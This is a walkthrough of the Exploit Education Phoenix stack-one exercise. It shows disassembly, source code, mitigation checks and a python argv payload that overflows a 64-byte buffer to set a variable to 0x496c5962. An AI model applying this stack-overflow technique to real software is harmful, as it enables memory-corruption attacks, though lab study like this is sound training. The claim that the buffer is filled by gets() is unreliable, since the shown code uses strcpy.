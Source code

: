 ```yaml
---
title: "phoenix - stack 1"
classes: wide
tag: 
  - "buffer overflow"
header:
  teaser: /assets/images/binary-exploitation/binexp.png
ribbon: red
description: "Solution for stack one from Phoenix in Exploit Education Series"
categories:
  - Binary Exploitation
---
```


Lets list our files using ```ls -la```,

```c
user@phoenix-amd64:~$ ls -la
total 28
drwxr-xr-x 2 user user 4096 Jun  6 03:42 .
drwxr-xr-x 3 root root 4096 Jan 13  2019 ..
-rw-r--r-- 1 user user  220 Jan 13  2019 .bash_logout
-rw-r--r-- 1 user user 3526 Jan 13  2019 .bashrc
-rw-r--r-- 1 user user  675 Jan 13  2019 .profile
-rwxr-xr-x 1 user user 6176 Jun  6 03:41 stack-one
```

Lets view our file type of the binary using ```file``` command,
```c
user@phoenix-amd64:~$ file stack-one
stack-one: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /opt/phoenix/x86_64-linux-musl/lib/ld-musl-x86_64.so.1, not stripped
```

It is a ```not stripped``` binary

Lets try running it,

```c
user@phoenix-amd64:~$ ./stack-one
Welcome to phoenix/stack-one, brought to you by https://exploit.education
stack-one: specify an argument, to be copied into the "buffer"
user@phoenix-amd64:~$ ./stack-one monish
Welcome to phoenix/stack-one, brought to you by https://exploit.education
Getting closer! changeme is currently 0x00000000, we want 0x496c5962
```

It seems like we have to overwrite the ```0x496c5962``` value into the ```changeme``` variable

We didn't overwrite it yet,so it displays ```0x00000000``` in it

Lets view our binary in debugger,

Lets view the functions in it,

```c
pwndbg> info functions
All defined functions:

Non-debugging symbols:
0x0000000000400478  _init
0x00000000004004a0  strcpy@plt
0x00000000004004b0  printf@plt
0x00000000004004c0  puts@plt
0x00000000004004d0  errx@plt
0x00000000004004e0  exit@plt
0x00000000004004f0  __libc_start_main@plt
0x0000000000400500  _start
0x0000000000400516  _start_c
0x0000000000400540  deregister_tm_clones
0x0000000000400570  register_tm_clones
0x00000000004005b0  __do_global_dtors_aux
0x0000000000400640  frame_dummy
0x000000000040066d  main
0x0000000000400700  __do_global_ctors_aux
0x0000000000400742  _fini
```

Lets disassemble our ```main()``` function,

```c
pwndbg> disassemble main
Dump of assembler code for function main:
   0x000000000040066d <+0>:	  push   rbp
   0x000000000040066e <+1>:	  mov    rbp,rsp
   0x0000000000400671 <+4>:	  sub    rsp,0x60
   0x0000000000400675 <+8>:	  mov    DWORD PTR [rbp-0x54],edi
   0x0000000000400678 <+11>:	mov    QWORD PTR [rbp-0x60],rsi
   0x000000000040067c <+15>:	mov    edi,0x400750
   0x0000000000400681 <+20>:	call   0x4004c0 <puts@plt>
   0x0000000000400686 <+25>:	cmp    DWORD PTR [rbp-0x54],0x1
   0x000000000040068a <+29>:	jg     0x4006a0 <main+51>
   0x000000000040068c <+31>:	mov    esi,0x4007a0
   0x0000000000400691 <+36>:	mov    edi,0x1
   0x0000000000400696 <+41>:	mov    eax,0x0
   0x000000000040069b <+46>:	call   0x4004d0 <errx@plt>
   0x00000000004006a0 <+51>:	mov    DWORD PTR [rbp-0x10],0x0
   0x00000000004006a7 <+58>:	mov    rax,QWORD PTR [rbp-0x60]
   0x00000000004006ab <+62>:	add    rax,0x8
   0x00000000004006af <+66>:	mov    rdx,QWORD PTR [rax]
   0x00000000004006b2 <+69>:	lea    rax,[rbp-0x50]
   0x00000000004006b6 <+73>:	mov    rsi,rdx
   0x00000000004006b9 <+76>:	mov    rdi,rax
   0x00000000004006bc <+79>:	call   0x4004a0 <strcpy@plt>
   0x00000000004006c1 <+84>:	mov    eax,DWORD PTR [rbp-0x10]
   0x00000000004006c4 <+87>:	cmp    eax,0x496c5962
   0x00000000004006c9 <+92>:	jne    0x4006d7 <main+106>
   0x00000000004006cb <+94>:	mov    edi,0x4007d8
   0x00000000004006d0 <+99>:	call   0x4004c0 <puts@plt>
   0x00000000004006d5 <+104>:	jmp    0x4006eb <main+126>
   0x00000000004006d7 <+106>:	mov    eax,DWORD PTR [rbp-0x10]
   0x00000000004006da <+109>:	mov    esi,eax
   0x00000000004006dc <+111>:	mov    edi,0x400820
   0x00000000004006e1 <+116>:	mov    eax,0x0
   0x00000000004006e6 <+121>:	call   0x4004b0 <printf@plt>
   0x00000000004006eb <+126>:	mov    edi,0x0
   0x00000000004006f0 <+131>:	call   0x4004e0 <exit@plt>
End of assembler dump.
```

Lets view the source code of this binary for proper understanding,

```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  printf("%s\n", BANNER);

  if (argc < 2) {
    errx(1, "specify an argument, to be copied into the \"buffer\"");
  }

  locals.changeme = 0;
  strcpy(locals.buffer, argv[1]);

  if (locals.changeme == 0x496c5962) {
    puts("Well done, you have successfully set changeme to the correct value");
  } else {
    printf("Getting closer! changeme is currently 0x%08x, we want 0x496c5962\n",
        locals.changeme);
  }

  exit(0);
}
```

It is same like previous challenge,but here we have to overwrite the ```changeme``` variable with ```0x496c5962```

The main key of the program lies in this condition,

```c
if (locals.changeme == 0x496c5962) {
    puts("Well done, you have successfully set changeme to the correct value");
  } else {
    printf("Getting closer! changeme is currently 0x%08x, we want 0x496c5962\n",
        locals.changeme);
  }
```

Checking the security mitigations of this binary,

```c
ra@moni~/E/p/stack1> checksec stack-one
[*] '/home/ra/ExpDevPractice/phoenix/stack1/stack-one'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
    RPATH:    '/opt/phoenix/x86_64-linux-musl/lib'
```

It has no security mitigations in it, we can use the ```buffer``` to overwrite the ```changeme``` variable

Since ```buffer``` uses ```gets()``` for input,we can use this for overflow

In debugger we can see,

```c
0x00000000004006a0 <+51>:	mov    DWORD PTR [rbp-0x10],0x0
```

It is used to initialize ```changeme``` ie. ```locals.changeme = 0```

```c
0x00000000004006b2 <+69>:	lea    rax,[rbp-0x50]
```

It is used to load the buffer space for ```buffer```

Calculating the distance of these memory,

```c
>>> int(0x50)
80
>>> int(0x10)
16
>>> print(80-16)
64
```

If we could pass 64 bytes of ```buffer``` and  extra bytes to ```buffer``` it would overwrite the ```changeme``` variable

Since it uses ```argv``` we should pass our input as argument

Lets try exploiting it,

```c
user@phoenix-amd64:~$ ./stack-one $(python -c "print('A'*64)")
Welcome to phoenix/stack-one, brought to you by https://exploit.education
Getting closer! changeme is currently 0x00000000, we want 0x496c5962
user@phoenix-amd64:~$ ./stack-one $(python -c "print('A'*64+'BBBB')")
Welcome to phoenix/stack-one, brought to you by https://exploit.education
Getting closer! changeme is currently 0x42424242, we want 0x496c5962
```

Now we can successfully overwrite the ```changeme``` variable

But we have to overwrite it with ```0x496c5962``` correctly

Check the endian of your processor,
```c
user@phoenix-amd64:~$ lscpu | grep Endian
Byte Order:            Little Endian
```

Since we are using little endian, ```0x496c5962``` should be passed as ```\x62\x59\x6c\x49```

```c
user@phoenix-amd64:~$ ./stack-one $(python -c "print('A'*64+'\x62\x59\x6c\x49')")
Welcome to phoenix/stack-one, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
```

Done! We have completed our challenge



